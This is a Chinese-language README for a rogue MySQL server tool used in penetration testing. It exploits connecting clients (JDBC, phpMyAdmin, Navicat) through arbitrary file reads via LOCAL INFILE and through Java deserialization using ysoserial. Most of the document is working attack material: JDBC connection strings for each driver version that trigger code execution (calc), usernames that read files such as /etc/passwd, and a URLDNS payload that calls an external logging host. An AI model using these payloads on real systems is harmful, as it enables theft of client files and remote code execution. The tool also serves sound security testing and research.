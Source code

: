 # MySQL Fake Server
用于渗透测试过程中的假MySQL服务器，纯原生python3实现，不依赖其它包。

修改自项目https://github.com/waldiTM/python-mysqlproto

## 用途

1. MySQL服务端读取客户端文件漏洞利用
2. MySQL JDBC客户端Java反序列化漏洞利用

## 说明
1. 需要python3环境，无任何其它依赖。
2. 根据**登录用户名**返回文件读取利用报文、反序列化利用报文。
3. 需要[ysoserial](https://github.com/frohoff/ysoserial)才能用反序列化功能，支持ServerStatusDiffInterceptor和detectCustomCollations两种方式。
4. MySQL的用户名支持冒号、斜杠等特殊符号，但是能否使用还需看具体客户端环境。
5. 运行：`python server.py`
6. config.ini中预置了一部分配置信息

## 测试环境：
1. jdk1.8.20+mysql-connector-java 8.0.14/5.1.22(Windows下反序列化（JRE8u20）、文件读取)
2. PHPMyAdmin(Windows+Linux文件读取，可以使用相对路径读取php文件内容)
3. Navicat 12(Windows下文件读取，需要切换到mysql_clear_password认证插件)

## 使用方法
1. 文件读取：
    - 可以在config.json中fileread节中预定义好要读取的文件,key为用户名,value为要读取的文件名
    - 可以用fileread_开头的用户名(例如使用用户名fileread\_/etc/passwd来读取/etc/passwd文件)
2. 反序列化
    - 可在config.json中yso节预定义好yso payload的生成参数，key为用户名，value为ysoserial的参数
    - 可以用yso_开头的用户名，格式yso\_payload类型\_命令（例如jdk7u21调用calc就使用用户名yso\_Jdk7u21\_calc）
    - jdbc连接串示例：
      - `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc`
      - `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_URLDNS_http://yourdns.log.addr/`
3. 关于认证：默认认证插件一般使用**mysql_native_password**,但是由于议实现的问题，navicat下会连接失败，此时在使用的用户名后追加 **_clear** 即可切换为mysql_clear_password,navicat连接成功,读取到文件。
    - **例如：** fileread\_/etc/passwd_clear

## JDBC连接串整理

写分析的时候整理了一下：https://www.anquanke.com/post/id/203086
用户名请参考上面的说明进行修改。

### ServerStatusDiffInterceptor触发

- **8.x:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。

- **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

### detectCustomCollations触发：

- **5.1.41及以上:** 不可用

- **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.18以下的5.1.x版本：** 不可用

- **5.0.x版本不可用** 

## 效果

Navicat文件读取（用户名使用win_ini_clear）

![image-20200414150112426](README.assets/image-20200414150112426.png)

JDK 1.8.20+mysql-connector-java 8.0.14反序列化，使用用户名：yso_JRE8u20_calc

![image-20200414150417471](README.assets/image-20200414150417471.png)

## 踩过的坑

1. SHOW VARIABLES 相关
   - 会读取两列，所以需要返回两列，否则会报错。
   - JDBC连接的时候回通过调用`SHOW VARIABLES`获取服务器变量，其中最重要的是两个时区变量`system_time_zone`和`time_zone`，在getObject过程，会调用到时区相关信息，没有这两个会直接报错
2. jdbc的Blob判定条件除了字段类型为blob，还要求字段声明的org_table字段不为空，flags大于128，否则会被当做text进行解析。（com.mysql.cj.protocol.a.NativeProtocol的findMysqlType方法）
3. 原python-mysqlproto中的序列检测需要去掉，否则会出错（这个应该是哪里处理有问题导致了序号重置）。
4. `SHOW SESSION STATUS`和`SHOW COLLATION`的公用列是第二列
5. mysql java connector 5.x的环境下，需要返回的server版本大于等于5.0.0才会走到`Util.resultSetToMap`进入getObject

## 招聘了招聘~

360云安全团队目前大量招聘中，欢迎各位大佬投递简历，大家一起来愉快地玩耍~^_^

https://www.anquanke.com/post/id/200462

## 参考资料

**项目基础：**

https://github.com/waldiTM/python-mysqlproto

**漏洞相关:**

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

https://paper.seebug.org/1112/

https://github.com/codeplutos/MySQL-JDBC-Deserialization-Payload

**协议相关：**

https://dev.mysql.com/doc/internals/en/protocoltext-resultset.html

https://dev.mysql.com/doc/internals/en/character-set.html

https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Data
